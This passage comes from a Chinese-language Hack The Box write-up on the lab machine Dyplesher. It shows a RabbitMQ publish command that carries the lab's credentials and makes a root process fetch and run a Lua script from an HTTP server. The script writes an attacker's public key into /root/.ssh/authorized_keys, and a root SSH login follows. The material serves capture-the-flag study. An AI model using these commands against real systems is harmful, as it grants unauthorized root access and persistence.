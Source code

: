 ```
╭─kali@kali ~/htb-tools 
╰─$ ./amqp-publish.linux-amd64 --uri="amqp://yuntao:EashAnicOc3Op@10.10.10.190:5672/" --exchange="" --routing-key="plugin_data" --body="http://127.0.0.1:22222/test.lua"

```

消息被成功发布：

```
MinatoTW@dyplesher:~/paper$ python3 -m http.server 22222
Serving HTTP on 0.0.0.0 port 22222 (http://0.0.0.0:22222/) ...
127.0.0.1 - - [07/Nov/2020 18:38:50] "GET /test.lua HTTP/1.0" 200 -
```

`test.lua`被成功执行，在`/tmp`目录下，`test`文件被创建：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017ba3d1fe54512dab.png)

并且该文件是属于root用户的。

#### <a class="reference-link" name="ssh.lua%20-&gt;%20RCE"></a>ssh.lua -&gt; RCE

现在我们可以向`/root/.ssh/authorized_keys`写入我们的公钥：

```
// ssh.lua

file = io.open('/root/.ssh/authorized_keys', 'w+')
ssh = 'ssh-rsa AAAAB......BL/upYw== kali@kali'
file.write(ssh)
file.close()
```

通过同样的方式发布：

```
╭─kali@kali ~/htb-tools 
╰─$ ./amqp-publish.linux-amd64 --uri="amqp://yuntao:EashAnicOc3Op@10.10.10.190:5672/" --exchange="" --routing-key="plugin_data" --body="http://127.0.0.1:22222/ssh.lua"

```

成功登录root用户：

```
╭─kali@kali ~/.ssh 
╰─$ ls
id_rsa  id_rsa.pub  known_hosts
╭─kali@kali ~/.ssh 
╰─$ ssh -i id_rsa root@10.10.10.190
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 07 Nov 2020 06:44:33 PM UTC

  System load:  0.06              Processes:              261
  Usage of /:   6.7% of 97.93GB   Users logged in:        1
  Memory usage: 42%               IP address for ens33:   10.10.10.190
  Swap usage:   0%                IP address for docker0: 172.17.0.1


57 updates can be installed immediately.
0 of these updates are security updates.
```